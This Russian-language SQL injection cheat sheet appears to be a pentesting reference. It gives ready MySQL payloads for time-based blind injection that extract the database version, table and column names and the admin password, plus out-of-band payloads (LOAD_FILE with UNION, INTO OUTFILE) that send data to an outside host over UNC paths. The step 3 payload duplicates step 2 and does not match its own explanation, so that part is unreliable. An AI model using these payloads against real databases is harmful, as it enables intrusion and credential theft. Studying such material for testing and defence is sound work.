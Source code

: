 #### Через задержку времени

- **Логика вывода данных через задержку времени:**
```
'; IF (1=2) THEN SLEEP(10); END IF; -- # не вызовет задержку
'; IF (1=1) THEN SLEEP(10); END IF; -- # вызовет задержку
```


- **1. Получение версии бд:**
```
'; IF (SUBSTRING(@@version, 1, 1) = '5') THEN SLEEP(10); END IF; -- 
```


- **2. Определение таблиц:**
```
'; IF (SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1), 1, 1) = 'a') THEN SLEEP(10); END IF; -- #
```
- `LIMIT 1` возвращает только одну таблицу (первую в списке).
- `LIMIT 1 OFFSET 1` возвращает вторую строку и т.д.


- **3. Определение название столбцов в бд:**
```
'; IF (SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1), 1, 1) = 'a') THEN SLEEP(10); END IF; -- #
```
- `information_schema.columns` содержит информацию о всех столбцах в базе данных.
- `table_schema = DATABASE()` ограничивает выборку текущей базой данных.
- `table_name = 'users'` указывает на конкретную таблицу.
- `LIMIT 1` возвращает только один столбец (первый в списке).
- `LIMIT 1 OFFSET 1` возвращает вторую строку и т.д.
- `SUBSTRING(..., 1, 1)` извлекает первый символ названия столбца.


- **4. Вывод данных их столбца в таблице:**
```
'; IF (SUBSTRING((SELECT password FROM users WHERE username = 'admin' LIMIT 1), 1, 1) = 'a') THEN SLEEP(10); END IF; -- #
```
- `LIMIT 1 OFFSET 1` возвращает вторую строку и т.д.

#### C использованием внеполосных методов (OAST)

- **Логика вывода данных через обращение на наш сервер:**
Использование `LOAD_FILE()`:
- Функция `LOAD_FILE()` может читать содержимое файла и возвращать его как строку. Если указать URL, она может выполнить HTTP-запрос.
- Пример:
```
' UNION SELECT LOAD_FILE(CONCAT('\\\\', (SELECT @@version), '.example.com\\test')) -- #
```
Здесь `@@version` передается как поддомен на сервер `example.com`.

Использование `INTO OUTFILE`:
- Функция `INTO OUTFILE` позволяет записывать данные в файл. Если указать путь к сетевому ресурсу, данные могут быть отправлены на внешний сервер.
- Пример:
```
SELECT 'data' INTO OUTFILE '\\\\example.com\\share\\output.txt';
```
